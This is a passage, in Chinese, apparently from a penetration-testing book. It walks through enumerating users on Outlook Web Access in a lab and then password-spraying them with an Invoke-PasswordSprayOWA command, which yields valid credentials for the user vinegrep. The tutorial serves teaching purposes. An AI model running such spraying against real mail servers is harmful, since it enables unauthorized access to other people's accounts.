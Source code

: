 ![图 1.7 – 使用 OWA 成功进行用户枚举](img/B18964_01_07.jpg)

图 1.7 – 使用 OWA 成功进行用户枚举

我们成功找到两个用户——**Administrator**和**vinegrep**。现在，让我们对 OWA 执行密码喷射攻击。在这个场景中，工具会针对提供的用户名列表喷射一个密码：

```
Invoke-PasswordSprayOWA -ExchHostname 192.168.56.106 -UserList .\found.txt -Password Qwerty123! -OutFile creds.txt
```

我们成功获取了用户**vinegrep**的有效凭证集：

![图 1.8 – 找到有效的凭证集，用户为 vinegrep](img/B18964_01_08.jpg)
